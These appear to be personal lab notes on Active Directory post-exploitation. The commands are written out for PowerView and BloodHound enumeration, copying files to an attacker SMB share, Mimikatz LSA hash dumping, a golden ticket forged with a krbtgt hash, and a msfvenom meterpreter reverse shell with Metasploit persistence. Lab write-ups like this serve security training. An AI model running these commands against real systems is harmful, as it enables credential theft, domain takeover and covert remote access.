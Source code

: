 # Enumeration

## Powerview

![[Pasted image 20210601181808.png]]

`Invoke-ShareFinder`

![[Pasted image 20210601182244.png]]

`Get-NetComputer -fulldata | select operatingsystem`

![[Pasted image 20210601182335.png]]

`Get-NetUser`
![[Pasted image 20210601182814.png]]

## Bloodhound

![[Pasted image 20210601184143.png]]

transfer file using 
`sudo impacket-smbserver sp00f . -smb2support -username sp00f -password Passw0rd!`

and now in the windows box we have to authenticate the user for sharing 

`net use \\10.50.90.103\sp00f /USER:sp00f Passw0rd!`

and using the command `copy * \\10.50.90.103\sp00f` we shared all the files

and start `neo4j console` and `bloodhound`

and then upload the zip file we got after importing from analysis 
see find all domain admins

![[Pasted image 20210601190823.png]]

users are Kerberoastable

![[Pasted image 20210601191114.png]]

sqlservice & KRBTGT


## Server Manager

connect via rdp

![[Pasted image 20210601193623.png]]

Navigate to the tools tab and select the Active Directory Users and Computers

![[Pasted image 20210601193712.png]]

![[Pasted image 20210601193820.png]]

# Hash Dump

## Mimikatz

```
cd Downloads && mimikatz.exe
privilege::debug
lsadump::lsa /patch
```

![[Pasted image 20210601191543.png]]

machine2 hash: c39f2beb3d2ec06a62cb887fb391dee0

maichine1 hash:  64f12cddaa88057e06a81b54e73b949b

![[Pasted image 20210601192139.png]]

# Golden Ticket Analysis

## Mimikatz

![[Pasted image 20210601192843.png]]

`kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

![[Pasted image 20210601193136.png]]

![[Pasted image 20210601193435.png]]


#  Maintaining Access

` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f exe -o exploit.exe`

transfer and run and listen

![[Pasted image 20210601194240.png]]

![[Pasted image 20210601194315.png]]

```
background
use exploit/windows/local/persistence
set session 1
run
```

![[Pasted image 20210601194549.png]]


-------


Resources -

-   [https://blog.harmj0y.net/](https://blog.harmj0y.net/)[](https://blog.harmj0y.net/)
-   [https://adsecurity.org/?page\_id=1821](https://adsecurity.org/?page_id=1821)
-   [https://metasploit.help.rapid7.com/docs/about-post-exploitation](https://metasploit.help.rapid7.com/docs/about-post-exploitation)  
-   [http://www.pentest-standard.org/index.php/Post\_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation)
-   [https://offsec.red/mimikatz-cheat-sheet/](https://offsec.red/mimikatz-cheat-sheet/)[](https://offsec.red/mimikatz-cheat-sheet/)
-   [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Tools/Malware Used -

-   [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
-   [https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
-   [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)